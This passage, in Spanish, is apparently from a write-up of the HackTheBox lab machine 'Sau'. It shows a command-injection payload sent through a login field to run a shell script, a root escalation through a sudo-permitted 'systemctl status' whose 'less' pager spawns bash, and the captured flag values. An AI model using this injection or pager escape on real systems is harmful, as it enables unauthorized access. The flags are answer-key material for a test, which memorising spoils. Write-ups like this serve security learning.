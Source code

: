 ```bash
❯ curl 10.10.11.224:55555/z3r0byte/login -d 'username=;$(bash /tmp/shell.sh)'
```
7. Disfrutar de la shell 😎
```bash
puma@sau:/opt/maltrail$ echo "de puta madre 😎"
de puta madre 😎
```

A partir de aquí podemos ver la flag `user.txt` en `/home/puma`:
```bash
puma@sau:~$ head --bytes 16 user.txt ;echo
7d709839f637a483
```

# Root.txt
Si hacemos `sudo -l` veremos lo siguiente:
```bash
puma@sau:~$ sudo -l
Matching Defaults entries for puma on sau:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User puma may run the following commands on sau:
    (ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service
```
Podemos ejecutar como cualquier usuario, sin contraseña, el comando que vemos ahí.

Con el propio `systemctl` no podremos hacer nada, pero si hacemos la ventana de la terminal pequeña (o lo simulamos) veremos algo:
```bash
puma@sau:~$ stty rows 10 columns 80 #simulamos tener pantalla de gameboy por lo menos
```

![image](https://github.com/z3rObyte/z3rObyte.github.io/assets/67548295/96df4e55-1e01-4aa4-9c38-4b3054003720)

La máquina piensa que nuestra pantalla es pequeña y para ver todo el ouput del comando se activa el comando paginador `less`

Y según sé yo, con `less` podemos spawnear una shell:
![image](https://github.com/z3rObyte/z3rObyte.github.io/assets/67548295/0d27fda4-a49b-4e93-83e0-d0c5cba5c8a6)
> Fuente: [GTFOBins](https://gtfobins.github.io/gtfobins/less/)

Pues ya está, solo escribimos `!/bin/bash` y pa dentro:
![image](https://github.com/z3rObyte/z3rObyte.github.io/assets/67548295/075e6b82-e5d2-4f3f-864d-8ac0252dad9e)

Ya podemos ver la flag `root.txt` e irnos a celebrarlo:
```bash
root@sau:/home/puma# head --bytes 16 /root/root.txt ; echo
601d7dc10ae3232a
```
